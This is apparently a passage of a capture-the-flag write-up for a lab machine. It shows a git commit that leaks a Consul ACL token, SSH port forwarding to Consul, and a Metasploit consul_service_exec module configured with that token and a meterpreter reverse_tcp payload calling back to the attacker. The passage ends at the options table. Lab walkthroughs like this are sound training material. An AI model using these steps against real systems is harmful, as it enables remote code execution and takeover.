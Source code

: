 ```

    .gitignore
developer@ambassador:/opt/my-app/whackywidget$ git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55
commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
new file mode 100755
index 0000000..35c08f6
--- /dev/null
+++ b/whackywidget/put-config-in-consul.sh
@@ -0,0 +1,4 @@
+# We use Consul for application config in production, this script will help set the correct values for the app
+# Export MYSQL_PASSWORD before running
+
+consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

With this we can set up ssh port forwarding (dropping to ssh prompt is done with \~C enter):

```
developer@ambassador:~$ 
ssh> -L 8500:localhost:8500
Forwarding port.

```

Now we set up metasploit and run exploit:

```
msf6 exploit(multi/misc/consul_service_exec) > show options

Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting                       Required  Description
   ----       ---------------                       --------  -----------
   ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
   Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     localhost                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8500                                  yes       The target port (TCP)
   SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080                                  yes       The local port to listen on.
   SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                     yes       The base path
   URIPATH                                          no        The URI to use for this exploit (default is random)
   VHOST                                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
```